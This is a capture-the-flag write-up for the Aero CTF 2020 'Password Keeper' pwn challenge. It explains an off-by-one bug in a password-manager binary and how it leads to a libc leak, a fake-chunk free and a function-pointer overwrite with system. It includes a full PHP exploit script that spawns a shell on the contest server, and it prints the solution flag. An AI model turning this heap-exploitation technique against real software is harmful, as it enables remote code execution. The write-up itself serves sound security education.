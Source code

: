 # Password Keeper - Aero CTF 2020 (pwn, 423, 23 solved)
## Introduction

Password Keeper is a pwn task.

An archive containing a binary, a libc and its corresponding loader (`ld.so`).

The binary simulates a password manager in which the user can create, delete and
view passwords. It is only possible to view passwords whose owner match the
current user.

## Reverse engineering

The binary uses two global variables : the user name, stored in an array of 64
chars, and a function pointer that get used to display the user's name. Its
signature is: `void printer(char *user)`.

```c
char username[0x40];
void (*printer)(char *user);
```

The passwords are held in a `char[0x30]`. They are stored in an array of 16
pointers on the stack. This array is followed by an array of 16 characters
called `secret`.

```c
// irrelevant [...]
char *passwords[0x10];
char  secret[0x10];
long  canary;
```

The program keeps track on the number of passwords. It will always allocate the
password to last index. It also verifies that the index is in bound.

```c
if(count < 0x10)
	passwords[count++] = malloc(0x30);
```

The program accepts an index that is between 0 and `count` (inclusive) when
reading a password.

```c
if(0 <= idx && idx <= count)
	if(password[idx] != NULL)
		password_show(password[idx]);
```

The program accepts any integer strictly inferior to `count` when deleting a
password.

```c
if(idx <= count) {
	free(password[idx]);
	password[idx] = NULL;
}
```

Although this construction is vulnerable (`idx` being a signed integer), this
vulnerability has not been exploited. Deleting password at index -1 deletes the
last password added to the manager.

```
{?} Enter password: foobar
-------- Password Keeper --------
[...]
4. Delete password
[...]
> 4
{?} Enter password id: 0
[...]
> 4
{?} Enter password id: -1
free(): double free detected in tcache 2
```

## Exploitation

The vulnerability lies in an off-by-one in both the read and delete features: it
is possible to read and delete one element after the `password` array. This ends
up in the `secret` array that can be controlled by the attacker.

The exploitation can be done by following these steps:
1. put a fake heap chunk in the user name
2. put a fake pointer to `.got.plt` in the `secret` array
3. fill the `password` array
4. read entry 16 to leak `.got.plt` content
5. change secret to point to global user name
6. free fake chunk by deleting entry 16 that points to it
7. allocate a password in `.bss` that overwrites the `printer` function pointer
8. Look at the user's info to call `printer(username)`

The `printer` function can be replaced with `system`. This will run the username
specified in step 1 as a command.

**Flag**: `Aero{a9b57185b3799a0bb4c0bdd01156ae2d5eeea046513a4faf1d51e114df91679e}`

## Appendices

### pwn.php
```php
#!/usr/bin/php
<?php
require_once("Socket.php");

function menu(Tube $t)
{
	$t->expectLine("-------- Password Keeper --------");
	$t->expectLine("1. Keep password");
	$t->expectLine("2. View password");
	$t->expectLine("3. View all passwords");
	$t->expectLine("4. Delete password");
	$t->expectLine("5. Clear all passwords");
	$t->expectLine("6. View profile");
	$t->expectLine("7. Change secret");
	$t->expectLine("8. Exit");
	$t->expect("> ");
}

function add(Tube $t, $pass)
{
	menu($t);
	$t->write("1\n");

	$t->expect("{?} Enter password: ");
	$t->write($pass);
}

function view(Tube $t, $idx)
{
	menu($t);
	$t->write("2\n");

	$t->expect("{?} Enter password id: ");
	$t->write("$idx\n");

	$t->expectLine("---- Password [$idx] ----");
	$t->expect("Value: "); $leak = $t->readLine();
	$t->expect("Owner: "); $t->readLine();

	return $leak;
}

function del(Tube $t, $idx)
{
	menu($t);
	$t->write("4\n");

	$t->expect("{?} Enter password id: ");
	$t->write("$idx\n");
}


function clear(Tube $t)
{
	menu($t);
	$t->write("5\n");
}

function secret(Tube $t, $secret)
{
	menu($t);
	$t->write("7\n");

	$t->expect("Enter new secret: ");
	$t->write($secret);
}


$t = new Socket("tasks.aeroctf.com", 33039);

$user = "/bin/sh\0XeR\0TFNS\0";
$user = str_pad($user, 0x30, "\x00");
$user .= pack("Q*", 0, 0x41);


$t->expect("{?} Enter name: ");
$t->write($user);

$t->expect("{?} Enter secret: ");
$t->write(pack("Q", 0x00403ff0)); // __libc_start_main@got.plt

printf("[*] Create passwords\n");
for($i = 0; $i < 0x10; $i++)
	add($t, $i);

$leak = view($t, 16);
$leak = str_pad(substr($leak, 0, 8), 8, "\x00");
$addr = unpack("Q", $leak)[1];
$libc = $addr - 0x00026ad0;
printf("[+] libc: %X\n", $libc);


printf("[*] Free pointer\n");
secret($t, pack("Q", 0x00404100)); // pointer
del($t, 16);

printf("[*] Get shell\n");
add($t, pack("Q", $libc + 0x00046ed0));
menu($t);
$t->write("6\n");

printf("[+] Pipe\n");
$t->pipe();
```
